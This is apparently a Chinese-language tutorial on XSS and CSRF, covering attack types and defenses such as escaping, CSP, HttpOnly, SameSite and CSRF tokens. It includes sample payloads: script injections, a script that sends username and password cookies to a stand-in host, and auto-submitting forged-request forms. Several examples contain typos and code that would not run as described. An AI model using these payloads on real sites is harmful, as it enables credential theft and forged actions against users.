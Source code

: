 
## XSS
### 什么是XSS攻击?
XSS全称是Cross Site Scripting(即跨站脚本),为了和css区分,故叫它XSS.XSS攻击是指浏览器中执行恶意脚本(无论是跨域还是同于),从未拿到用户的信息并操作.
### XSS攻击能做什么? 
- 1. 窃取Cookie
- 2. 监听用户行为,比如输入账号密码后直接发送到黑客服务器
- 3. 修改DOM未在登录表单
- 4. 在页面中生成浮窗广告

### SS攻击的实现的三种方式?
- 1.存储型
- 2.反射型
- 3.文档型

#### 存储型
存储型,顾名思义就是将恶意脚本存储了起来,存储型的XSS将脚本存储到了服务到数据库,然后在客户端执行这些脚本,从而达到攻击的效果
```html
// 常见的场景就是留言评论去提交一段脚本代码,如果前后端没有做好转义的工作,那评论内容存到了数据库,在页面渲染过程中直接执行,相当于执行一段未知逻辑的js代码,是非常恐怖的,这就是存储型CSS攻击

<textarea name="" id="textarea" cols="30" rows="10">
    value值为 <script>alert('哈哈哈')</script>
</textarea>

// 这样无论是谁访问这个页面的时候控制台都会弹出alert('哈哈哈')

```

#### 反射型
反射型XSS指的是恶意脚本作为网络请求的一部分。
```javascript
axios({
    method: 'get',
    data:{
        name: '您<script>alert("你好")</script>',
    }
})
// 这样,在服务端就会拿到name参数,然后将内容返回给浏览器端,浏览器将这些内容作为HTML的一部分解析,发现一个脚本,直接执行,这样就被攻击了.

// 之所以叫她反射型,是因为恶意脚本通过作为网络请求的参数,经过服务器,然后再反射到HTML文档中,执行解析.和存储型不一样的是,服务器并不会存储这些恶意脚本

```

#### 文档型
文档型的XSS攻击并不会经过服务端,而是作为中间人的角色,在数据传输的过程接触到网络数据包,然后修改里面的html文档
这样的劫持方式报货EIFI路由劫持和本地恶意软件.


### 防范措施
XSS攻击的原理: 都是让恶意脚本直接能在浏览器中执行.


防范一个信念,两个利用:
- 一个信念
    千万不要相信任何用户的输入
    无论是在前端还是服务端,都要对用户的输入进行转码或者过滤
    ```javascript
      <script>alert('你完蛋了')</script>
      转换为
      // &lt;script&gt;alert(&#39;你完蛋了&#39;)&lt;/script&gt;
      或者直接将script内容删除
    ```
- 两个利用
    - 利用CSP
        CSP: 即浏览器中的内容安全策略,他的核心思想就是服务器决定浏览器加载哪些资源,具体来说可以完成以下功能
            - 1.限制其他域下的资源加载
            - 2.禁止向其它域提交数据
            - 3.提供上报机制,能帮助我们及时发现XSS攻击
    - 利用HttpOnly
        很多XSS攻击脚本都是用来窃取Cookie,而设置Cookie的HttpOnly属性后,Javascript便无法读取Cookoe的值.这样也能很好的防范XSS攻击

### XSS攻击实例
#### 实例一(存储型和反射型攻击)
```html
<input type="text" src="你哈<script>alert('你完蛋了')</script>">
// 这样无论是谁访问这个页面的时候控制台都会弹出alert('哈哈哈')
```

#### 实例二(利用XSS窃取用户账户和密码)
```html
<input type="text" vlaue="我是谁" />
<input type="text" value="nihao<script src='http://www.baidu.com/'></script>">
```
我们看看 http://www.baidu.com/hack.js 里藏了什么
```javascript
var username=CookieHelper.getCookie('username').value;
var password=CookieHelper.getCookie('password').value;
var script =document.createElement('script');
script.src='http://test.com/index.php?username='+username+'&password='+password;
document.body.appendChild(script);
```

### 总结
XSS 攻击是指浏览器中执行恶意脚本, 然后拿到用户的信息进行操作。主要分为存储型、反射型和文档型。防范的措施包括:

- 一个信念: 不要相信用户的输入，对输入内容转码或者过滤，让其不可执行。
- 两个利用: 利用 CSP，利用 Cookie 的 HttpOnly 属性。




## CSRF 
### 什么是CSRF攻击？
CSRF(Cross-site request forgery), 即跨站请求伪造，指的是黑客诱导用户点击链接，打开黑客的网站，然后黑客利用用户目前的登录状态发起跨站请求。



#### 自动发GET请求
网页里有这样一段代码
```html
<img src="https://xxx.com/info?user=hh&count=100" alt="">
```
进入页面后自动发送get请求,值得注意的是,这个请求会自动带上关于xxx.com的cookie信息(这里是假定你已经在xxx.com中登陆过)
假如服务器没有相应的验证机制,他可能人为请求的是一个正常的用户,因为携带了相应的cookie,然后进行相应的各种操作,可以是转账汇款以及其他的恶意操作


#### 自动发送POST请求
黑客可能自己填了一个表单,写了一段自动提交的脚本
```html
<form id="from"  action="https://xxx.com/info" method="post">
    <input type="text" name="user" value="hh"/>
    <input type="text" name="count" value="100"/>
</formid>
<script>document.getElementById('from').submit();</script>
```
同样也会携带相应的用户cookie信息,让服务器误以为是一个正常的用户再操作,让各种恶意的操作变为可能

#### 诱导点击发送GET请求
在黑客的网站上,可能放上一个链接,驱使你来点击:
```html
<a href="https://xxx/info?user=hhh&count=100" taget="_blank">点击进入修仙世界</a>
```
点击后,自动发送get请求,接下来和自动发GET请求部分同理

这就是CSRF攻击原理.和XSS攻击对比,CSRF攻击并不需要将恶意代码注入用户当前页面的html文档中,而是跳转到新的页面,利用服务器的验证漏洞和用户之前的登录状态来模拟用户进行操作


### 防范措施
#### 1.利用Cookir的SameSite属性

CSRF中重要的一环就是自动发送目标站点下的cookie,然后就是这一份Cookie模拟了用户的身份,因为在Cookie上下文章是防范分不二选择

SameSite可以设置为三个值:
- Strict
    在Strict模式下,浏览器完全禁止第三方请求携带Cookie,比如baidu.com网站只能再baidu.com域名当中请求才能携带Cookie,在其他网站请求都不能
- Lax
    在Lax模式下,就宽松一点了,但是只能再get防范提交表单或者a标签发送get请求的情况下可以写到Cookie,其他情况均不能
- None
    在None模式下,也就是默认模式,请求会自动携带上Cookie

#### 2.验证来源站点
这就需要用到请求中的两个字段: Origin和Referer

其中.Origin只包含域名信息,而Referer包含了具体的URL路径

当然,这两者都是可以伪造的,通过Ajax中自定义请求头即可,安全性略差

#### CSRF Token
Django作为 Python 的一门后端框架，如果是用它开发过的同学就知道，在它的模板(template)中, 开发表单时，经常会附上这样一行代码:
```html
{% csrf_token %}
```
这就是CSRF Token的典型应用,那它的原理是怎样的呢?

首先,浏览器向服务器发送请求时,服务器生成一个字符串,将其植入到返回的页面中

然后浏览器如果要发送请求,就必须带上这个字符串,染回服务器来验证是否合法,如果不合法则不予响应,这个字符串也及以上CSRF Token,通常第三方站点无法拿到这个token,因此也就是被服务器给拒绝

### 总结
CSRF(Cross-site request forgery), 即跨站请求伪造，指的是黑客诱导用户点击链接，打开黑客的网站，然后黑客利用用户目前的登录状态发起跨站请求。
CSRF攻击一般会有三种方式:

自动 GET 请求
自动 POST 请求
诱导点击发送 GET 请求。

防范措施: 利用 Cookie 的 SameSite 属性、验证来源站点和CSRF Token。

